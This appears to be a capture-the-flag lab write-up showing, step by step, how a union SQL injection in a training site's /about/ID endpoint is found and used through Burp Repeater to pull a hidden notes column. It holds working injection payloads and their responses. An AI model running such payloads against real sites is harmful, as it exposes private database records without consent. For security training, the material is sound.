






## Scenario

> This task is designed to test your skills in a slightly more challenging, real-world scenario utilizing Burp Repeater. If you possess the expertise to independently perform a manual SQL Injection, you can skip ahead to the final question and attempt this as a blind challenge. However, a detailed walkthrough will be provided below if you require guidance.
> 
> Prerequisite Knowledge
> 
> Before starting on this challenge, it is recommended that you familiarize yourself with the principles of SQL Injection. If you haven't already, please consider exploring the SQL Injection room dedicated to this topic. Although a comprehensive step-by-step guide will be provided, having a basic understanding of SQL Injection principles will prove beneficial in completing this task.
> 
> Challenge Objective
> 
> Your objective in this challenge is to identify and exploit a Union SQL Injection vulnerability present in the ID parameter of the /about/ID endpoint. By leveraging this vulnerability, your task is to launch an attack to retrieve the notes about the CEO stored in the database.

Access via: `http://10.113.177.136`

## Looking at the About Page

I started by just loading `/about/` in the browser to see what was there before touching the endpoint. It's the Bastion Hosting "Meet the Execs" page, listing the team by name and role: Jameson Wolfe (Co-Founder & CEO), Olivier Parsons (Co-Founder & CIO), Ramira Macias (CTO), Byron Byers (CFO), Larson Holmes (CISO), and Derek Banks (CSO, cut off at the bottom of the page).


Jameson Wolfe being listed first as CEO was my working guess for which `id` to target once I had injection working, since exec listings are usually ordered by seniority or by database insertion order, and the CEO is normally the first row.

## Capturing the `/about/ID` Request

With intercept re-enabled in Burp's Proxy tab, I clicked through to a specific exec's page, which hits `/about/1`. Burp held the request, and I right-clicked it and chose **Send to Repeater**.

```http
GET /about/1 HTTP/1.1
Host: 10.113.177.136
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,ja;q=0.9
Accept-Encoding: gzip, deflate, br
Sec-GPC: 1
Connection: keep-alive
Referer: http://10.113.177.136/about/
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

**Breakdown:**

- `GET` is the HTTP method, requesting the resource at the given path
- `/about/1` is the path. `/about/` is the endpoint and `1` is the `id` value being requested
- `HTTP/1.1` is the protocol version
- `Host: 10.113.177.136` is the target server
- `Referer: http://10.113.177.136/about/` shows the request came from a link clicked on the About listing page



## Confirming the Injection Point

In Repeater, I appended a single quote to the `id` value to see if it broke the underlying SQL query.

```http
GET /about/1' HTTP/1.1
Host: 10.113.177.136

—SNIP—
<h1>
    500
</h1>
<h2>
    <code>
        Invalid statement: <code>
            SELECT firstName, lastName, pfpLink, role, bio
            FROM people WHERE id = 1'
        </code>
    </code>
</h2>
—SNIP—
```

**Breakdown:**

- `/about/1'` is the path with a single quote appended straight after the `id` value, with no escaping expected server-side
- the response's `500` status and the `Invalid statement` message are the server echoing back the broken SQL statement rather than handling the error quietly

The unquoted quote broke the query syntax, and the resulting error dumped the query the server actually runs: `SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 1'`. This confirmed two things at once — the `id` parameter is injectable, and the query selects from a table called `people` with (at least) the columns `firstName`, `lastName`, `pfpLink`, `role`, and `bio` — five columns in total, which fixes how many columns any `UNION SELECT` has to supply.



## Enumerating the Table's Columns

With five columns confirmed and the table name `people` known from the error, the next step was pulling the table's actual column list out of `information_schema.columns`, MySQL's built-in table that records every column of every table on the server.

```http
GET /about/0 UNION SELECT null,null,column_name,null,null FROM information_schema.columns WHERE table_name="people" HTTP/1.1
Host: 10.113.177.136

—SNIP—
<title>
    About | None None
</title>
—SNIP—
```

**Breakdown:**

- `/about/0` uses `0` as the `id`, a value no real row has, so the original query's own `WHERE id = 0` returns nothing and only the injected `UNION` half of the result set comes back — no genuine row's data mixed in to cause confusion
- `UNION SELECT null,null,column_name,null,null` appends a second query whose results are combined with the first. `UNION` requires both queries to return the same number of columns, so this supplies five values to match the original query's five columns. The first two are `null` placeholders, the third carries `column_name`, and the last two are `null`
- `column_name` is the column from `information_schema.columns` holding each column's name
- `FROM information_schema.columns` is the table being queried, not `people` itself — this is metadata about every column on the server
- `WHERE table_name="people"` filters that metadata down to only the columns belonging to the `people` table

The response title showed `About | None None`, meaning only the first two of the five selected values were being rendered into the page (the template builds the title from whatever lands in the first two output columns — normally `firstName` and `lastName`). Since `column_name` was placed third, it never reached the title. The returned data existed somewhere in the query result, but the page only renders the first two columns, so I needed the useful value in one of those first two slots.



## Moving the Payload to a Visible Column

I rearranged the column order so `column_name` sat first, matching what the title actually displays.

```http
GET /about/0 UNION SELECT column_name,2,3,4,5 FROM information_schema.columns WHERE table_name="people" HTTP/1.1
Host: 10.113.177.136

—SNIP—
<title>
    About | id 2
</title>
—SNIP—
```

**Breakdown:**

- `SELECT column_name,2,3,4,5` puts `column_name` in the first output position, where the page template reads it for the title. `2`, `3`, `4`, `5` are placeholder literal values filling the remaining four columns, just enough to keep the column count matching

The title came back `About | id 2`, confirming the table's first column is called `id` and that my literal `2` placeholder (in the second position) was rendering through as the "lastName" half of the title. Only one row came back, because `information_schema.columns` returns one row per column and a plain `SELECT` without aggregation only shows what MySQL returns row by row — to see every column name in one shot rather than one result at a time, the rows needed to be collapsed into a single value.



## Pulling All Column Names at Once

I wrapped `column_name` in `GROUP_CONCAT()`, which merges every row's value in that column into one comma-separated string, so a single result row carries the full list instead of one name per row.

```http
GET /about/0 UNION SELECT group_concat(column_name),2,3,4,5 FROM information_schema.columns WHERE table_name="people" HTTP/1.1
Host: 10.113.177.136

—SNIP—
<title>
    About | id,firstName,lastName,pfpLink,role,shortRole,bio,notes 2
</title>
—SNIP—
```

**Breakdown:**

- `group_concat(column_name)` is an aggregate function that concatenates the `column_name` value from every matching row into a single comma-separated string, instead of returning each as its own row

This returned the full column list for `people` in one response: `id, firstName, lastName, pfpLink, role, shortRole, bio, notes`. The original query's error message had only shown five of these (`firstName`, `lastName`, `pfpLink`, `role`, `bio`); this confirmed the table has three more columns the application doesn't normally select — `id`, `shortRole`, and, notably, `notes`.



## Retrieving the CEO's Notes

With `notes` identified as a column that exists but isn't normally shown on the page, and `id = 1` already suspected to be the CEO from the About page's listing order (Jameson Wolfe shown first), I queried `people` directly instead of `information_schema`, selecting `notes` into the first (title-visible) column and `role` into the second, to confirm whose record this was.

```http
GET /about/0 UNION SELECT notes,role,3,4,5 FROM people WHERE id = 1 HTTP/1.1
Host: 10.113.177.136

—SNIP—
<title>
    About | —REDACTED— Co-Founder and Chief Executive Officer
</title>
—SNIP—
```

**Breakdown:**

- `SELECT notes,role,3,4,5` places the target `notes` column first so it renders in the title, with `role` second as a check that `id = 1` is in fact the CEO's record
- `FROM people WHERE id = 1` queries the real table directly this time (no longer `information_schema`), filtered to the specific row of interest

The title came back with the flag in the `notes` position and `Co-Founder and Chief Executive Officer` in the `role` position, confirming `id = 1` was indeed Jameson Wolfe, the CEO, and that the flag was sitting in his `notes` field.



### Question 1 — Exploit the union SQL injection vulnerability in the site.

**Answer:** `No answer needed`

### Question 2 — What is the flag?

**Answer:** `—REDACTED—`